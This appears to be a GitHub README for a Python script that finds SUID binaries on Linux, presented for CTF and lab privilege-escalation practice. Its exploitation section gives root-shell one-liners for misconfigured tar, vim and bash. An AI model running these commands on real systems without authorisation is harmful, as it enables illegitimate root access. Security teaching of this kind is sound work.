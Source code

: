 # Find SUID Binaries and Exploit Them

This repository contains a Python script designed to help identify **SUID binaries** on Linux systems, commonly used as a vector for privilege escalation. The script also includes guidance on exploiting common SUID misconfigurations for **educational purposes** in **Capture The Flag (CTF)** challenges or controlled security labs.

---

## Features

- Recursively scans the Linux filesystem for binaries with the **SUID bit** set.
- Lists potentially exploitable binaries in an easy-to-read format.
- Educates users on exploiting discovered SUID misconfigurations for privilege escalation.

---

## How It Works

1. The script walks through the entire Linux filesystem (or a specified directory) to find binaries with the **SUID permission bit** (`rws`).
2. Outputs a list of binaries that are potential targets for privilege escalation.
3. Provides actionable insights on analyzing and exploiting these binaries based on CTF examples.

---

## Usage

### Prerequisites
- Python 3.x installed on the system.
- Root or sudo privileges to access the entire filesystem (recommended for thorough scans).

### Steps to Use

1. **Clone the Repository**
   ```bash
   git clone https://github.com/PhinehasNarh/SUID
   cd SUID
   ```

2. **Run the Script**
   ```bash
   python3 find_suid.py
   ```

3. **Analyze the Output**
   - The script lists all SUID binaries found.
   - Research their usage or misconfigurations.
   - Exploit examples are included below for CTF challenges.

---

## Example Output

```plaintext
[+] Searching for SUID binaries...

[+] Found SUID binaries:
    /usr/bin/passwd
    /usr/bin/sudo
    /bin/umount
    /bin/mount

[!] Remember to check these binaries for known privilege escalation vulnerabilities.
```

---

## Exploitation Examples

### 1. Exploiting SUID `tar` Misconfiguration
If you discover a SUID-enabled `tar` binary:
```bash
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
This spawns a root shell using the `--checkpoint-action` feature of `tar`.

---

### 2. Exploiting SUID `vim` Misconfiguration
If a misconfigured `vim` binary is found:
```bash
./vim -c '!sh'
```
This drops to a root shell from within `vim`.

---

### 3. Exploiting SUID `bash` Misconfiguration
If you find `/bin/bash` with the SUID bit:
```bash
./bash -p
```
This directly spawns a root shell.

---

## Ethical and Legal Disclaimer

This project is for **educational purposes only**. Unauthorized use of SUID exploits is **illegal** and violates ethical standards. Use this tool only in CTF challenges, virtual labs, or systems where you have **explicit permission**.

**Misuse of this tool may result in legal consequences.** Always act responsibly and within the boundaries of the law.

---

## Contributions

Contributions to improve the functionality and educational value of this project are welcome! Feel free to submit issues or pull requests.

---

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

---

## Acknowledgements

Inspired by CTF challenges and security labs, this project aims to educate cybersecurity enthusiasts on privilege escalation while promoting ethical hacking practices.

### #ph1n3y
